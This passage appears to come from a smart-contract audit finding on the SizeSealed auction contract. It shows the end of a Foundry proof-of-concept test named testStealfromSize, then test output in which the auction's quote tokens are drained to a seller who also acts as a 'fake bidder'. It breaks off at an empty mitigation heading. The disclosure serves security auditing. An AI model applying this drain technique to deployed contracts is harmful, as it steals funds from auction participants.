 ```solidity
        (uint256 afterFinalizefakebidderQuote, uint256 afterFinalizefakebidderBase) = seller_as_fake_bidder.balances();
        uint256 afterauctionQuote = quoteToken.balanceOf(address(auction));
        uint256 afterauctionBase = baseToken.balanceOf(address(auction));
        emit log_named_decimal_uint("Before Finalize Quote of seller : ",beforeFinalizeQuote,18);
        emit log_named_decimal_uint("Before Finalize Base of seller : ",beforeFinalizeBase,18);
        emit log_named_decimal_uint("Before Finalize Quote of seller as fake bidder : ",beforeFinalizefakebidderQuote,18);
        emit log_named_decimal_uint("Before Finalize Base of seller as fake bidder : ",beforeFinalizefakebidderBase,18);
        emit log_named_decimal_uint("Before Finalize Quote of auction : ",beforeauctionQuote,18);
        emit log_named_decimal_uint("Before Finalize Base of auction : ",beforeauctionBase,18);
        emit log_named_decimal_uint("After Finalize Quote of seller : ",afterFinalizeQuote,18);
        emit log_named_decimal_uint("After Finalize Base of seller : ",afterFinalizeBase,18);
        emit log_named_decimal_uint("After Finalize Quote of seller as fake bidder : ",afterFinalizefakebidderQuote,18);
        emit log_named_decimal_uint("After Finalize Base of seller as fake bidder : ",afterFinalizefakebidderBase,18);
        emit log_named_decimal_uint("After Finalize Quote of auction : ",afterauctionQuote,18);
        emit log_named_decimal_uint("After Finalize Base of auction : ",afterauctionBase,18);
    }
}
```

The output would be the following:

```solidity
Running 1 test for src/test/SizeSealed.t.sol:SizeSealedTest
[PASS] testStealfromSize() (gas: 640827)
Logs:
  Before Finalize Quote of seller : : 0.000000000000000000
  Before Finalize Base of seller : : 10000.000000000000000000
  Before Finalize Quote of seller as fake bidder : : 1500000.000000000000000000
  Before Finalize Base of seller as fake bidder : : 0.000000000000000000
  Before Finalize Quote of auction : : 10000.000000000000000000
  Before Finalize Base of auction : : 0.000000000000000000
  After Finalize Quote of seller : : 10000.000000000000000000
  After Finalize Base of seller : : 10000.000000000000000000
  After Finalize Quote of seller as fake bidder : : 1500000.000000000000000000
  After Finalize Base of seller as fake bidder : : 0.000000000000000000
  After Finalize Quote of auction : : 0.000000000000000000
  After Finalize Base of auction : : 0.000000000000000000
```

It is clear that the auction’s quote token are drained from auction to seller and the fake bidder gets to keep their token.

> I’ve used WETH as baseToken here, but any other token can be used which has low value as compared to quoteToken, so the exploit would not actually need the same amount of WETH tokens, similar amount of any low value ERC20 token should also work.
> 

### Recommended Mitigation Steps:
